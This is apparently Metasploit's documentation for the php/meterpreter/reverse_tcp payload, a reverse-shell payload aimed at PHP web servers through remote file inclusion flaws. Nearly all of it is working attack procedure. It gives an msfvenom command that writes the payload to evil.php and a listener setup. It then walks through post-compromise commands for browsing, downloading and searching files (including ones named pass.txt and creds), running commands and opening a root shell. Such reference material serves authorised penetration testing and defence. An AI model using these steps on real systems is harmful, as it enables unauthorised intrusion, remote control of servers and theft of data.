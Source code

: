 The php/meterpreter/reverse_tcp is a staged payload used to gain meterpreter access to a compromised system. This is a unique payload in the Metasploit Framework because this payload is one of the only payloads that are used in RFI vulnerabilities in web apps. This module _can_ be cross platform, but the target needs to be able to run php code.


## Vulnerable Application

  The PHP Meterpreter is suitable for any system that supports PHP. For example, the module can be used against webservers which run PHP code for a website. OS X has PHP installed by default.

## Deploying php/meterpreter/reverse_tcp
### Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

#### Generating a file with msfvenom
  ```
  msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o evil.php
  ```


#### Starting a listener
  ```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST [IP]
LHOST => [IP]
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > exploit

[*] Started reverse TCP handler on [IP]
  ```
  
## Important Basic Commands

Compared to a native Meterpreter such as windows/meterpreter/reverse_tcp, the PHP Meterpreter
has less commands, but here's a list of all the common ones you might need:

**pwd command**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /Users/thecarterb/Desktop
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
Hello World!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. This is useful for uploading additional payload files. For example:

```
meterpreter > upload /tmp/data.txt /Users/thecarterb/Desktop
[*] uploading  : /tmp/data.txt -> /Users/thecarterb/Desktop
[*] uploaded   : /tmp/data.txt -> /Users/thecarterb/Desktop/data.txt
meterpreter >
```

**download command**

The ```download``` command allows you to download a file from the remote target to your machine.
For example:

```
meterpreter > download /Users/thecarterb/Desktop/data.txt /tmp/pass.txt
[*] downloading: /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
[*] download   : /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
meterpreter >
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example,
this shows how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 2 results...
    .\pass.txt (13 bytes)
    ./creds\data.txt (83 bytes)
meterpreter >
```

Without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the command allows you to search recursively.


**getuid command**

The ```getuid``` command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: root
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following examples uses the command to create a text file:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 73642 created.
meterpreter >
```

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt (or shell).
For example:

```
meterpreter > shell
Process 74513 created.
Channel 2 created.
sh-3.2#
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo**

The ```sysinfo``` command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

## Using `post` modules
When using the PHP Meterpreter, you have the feature of using Metasploit's `post` modules on that specific session. By default, most `multi` post modules will work; however, you can also use OS specific modules depending on the OS of the compromised system. For example, if you have a PHP Meterpreter session running on OS X, you can use `osx` post modules on that session. 

  __Don't forget to:__
  - Set the `LHOST` datastore option to the connect-back IP Address
  - If you want to get multiple shells, set `ExitOnSession` to `false`
